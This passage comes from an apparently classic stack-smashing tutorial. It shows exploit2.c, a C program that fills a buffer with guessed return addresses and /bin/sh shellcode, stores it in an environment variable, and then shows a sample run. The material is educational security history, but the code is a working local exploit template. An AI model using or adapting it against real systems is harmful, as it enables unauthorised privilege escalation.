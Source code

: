 We can create a program that takes as a parameter a buffer size, and an
offset from its own stack pointer (where we believe the buffer we want to
overflow may live).  We'll put the overflow string in an environment variable
so it is easy to manipulate:

*exploit2.c*

	#include <stdlib.h>
	#define DEFAULT_OFFSET                    0
	#define DEFAULT_BUFFER_SIZE             512

	char shellcode[] =
		"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
		"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
		"\x80\xe8\xdc\xff\xff\xff/bin/sh";

	unsigned long get_sp(void) {
		__asm__("movl %esp,%eax");
	}

	void main(int argc, char *argv[]) {
		char *buff, *ptr;
		long *addr_ptr, addr;
		int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
		int i;

		if (argc > 1) bsize  = atoi(argv[1]);
		if (argc > 2) offset = atoi(argv[2]);

		if (!(buff = malloc(bsize))) {
			printf("Can't allocate memory.\n");
			exit(0);
		}

		addr = get_sp() - offset;
		printf("Using address: 0x%x\n", addr);

		ptr = buff;
		addr_ptr = (long *) ptr;
		for (i = 0; i < bsize; i+=4)
		*(addr_ptr++) = addr;

		ptr += 4;
		for (i = 0; i < strlen(shellcode); i++)
		*(ptr++) = shellcode[i];

		buff[bsize - 1] = '\0';

		memcpy(buff,"EGG=",4);
		putenv(buff);
		system("/bin/bash");	
	}

Now we can try to guess what the buffer and offset should be:

	[aleph1]$ ./exploit2 500
	Using address: 0xbffffdb4
